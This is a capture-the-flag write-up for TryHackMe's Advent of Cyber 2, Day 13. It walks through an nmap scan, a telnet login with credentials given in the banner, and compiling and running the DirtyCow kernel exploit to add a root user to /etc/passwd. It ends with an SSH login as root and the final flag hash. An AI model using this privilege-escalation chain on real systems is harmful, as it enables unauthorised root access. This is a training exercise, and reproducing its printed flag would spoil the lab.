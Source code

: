 # _**adventofcyber2 Day 13**_
    
    https://tryhackme.com/room/adventofcyber2

-------------------------------------

	┌──(astute㉿kali)-[~]
	└─$ nmap -sV -A 10.10.142.168
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 20:52 IST
	Nmap scan report for 10.10.142.168
	Host is up (0.43s latency).
	Not shown: 996 closed ports
	PORT     STATE    SERVICE VERSION
	22/tcp   open     ssh     OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
	|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
	|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
	23/tcp   open     telnet  Linux telnetd
	111/tcp  open     rpcbind 2-4 (RPC #100000)
	| rpcinfo: 
	|   program version    port/proto  service
	|   100000  2,3,4        111/tcp   rpcbind
	|   100000  2,3,4        111/udp   rpcbind
	|   100000  3,4          111/tcp6  rpcbind
	|   100000  3,4          111/udp6  rpcbind
	|   100024  1          36363/udp6  status
	|   100024  1          37792/tcp   status
	|   100024  1          44582/udp   status
	|_  100024  1          53539/tcp6  status
	9618/tcp filtered condor
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



	                                                 
=> `telnet` 

-------------------------------------

	┌──(astute㉿kali)-[~]
	└─$ telnet 10.10.194.225 23
	Trying 10.10.194.225...
	Connected to 10.10.194.225.
	Escape character is '^]'.
	HI SANTA!!! 

	We knew you were coming and we wanted to make
	it easy to drop off presents, so we created
	an account for you to use.

	Username: santa
	Password: clauschristmas

	We left you cookies and milk!

=> `clauschristmas`

----------------------------------------------

	$ uname -a
	Linux christmas 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
	$ cat /etc/*release
	DISTRIB_ID=Ubuntu
	DISTRIB_RELEASE=12.04
	DISTRIB_CODENAME=precise
	DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"


=> ubuntu 12.04

-----------------------------------------------

	ls
	christmas.sh  cookies_and_milk.txt
	$ cat cookies_and_milk.txt
	/*************************************************
	// HAHA! Too bad Santa! I, the Grinch, got here 
	// before you did! I helped myself to some of
	// the goodies here, but you can still enjoy
	// some half eaten cookies and this leftover
	// milk! Why dont you try and refill it yourself!
	//   - Yours Truly,
	//         The Grinch
	//*************************************************/

=> Grinch

--------------------------------------------

`follow up the dirtycow c code souce and execute`

https://github.com/FireFart/dirtycow/blob/master/dirty.c

	=> gcc -pthread dirty.c -o dirty -lcrypt

---------------------------------------------------------

	./dirty  
	/etc/passwd successfully backed up to /tmp/passwd.bak
	Please enter the new password: 
	Complete line:
	firefart:fiIoY9ux7Hzpc:0:0:pwned:/root:/bin/bash

=> `firefart`

---------------------------------------------------
`do login with the password we created on ssh`

`ssh firefart@:10.10.130.165`

	firefart@christmas:~# cat message_from_the_grinch.txt
	Nice work, Santa!

	Wow, this house sure was DIRTY!
	I think they deserve coal for Christmas, don't you?
	So let's leave some coal under the Christmas `tree`!

	Let's work together on this. Leave this text file here,
	and leave the christmas.sh script here too...
	but, create a file named `coal` in this directory!
	Then, inside this directory, pipe the output
	of the `tree` command into the `md5sum` command.

	The output of that command (the hash itself) is
	the flag you can submit to complete this task
	for the Advent of Cyber!

	    - Yours,
		John Hammond
		er, sorry, I mean, the Grinch

	      - THE GRINCH, SERIOUSLY

`Following the instructions we use touch coal to create the coal file, then run tree | md5sum to get the final answer.`

=> `8b16f00dd3b51efadb02c1df7f8427cc`

# _Thank You_
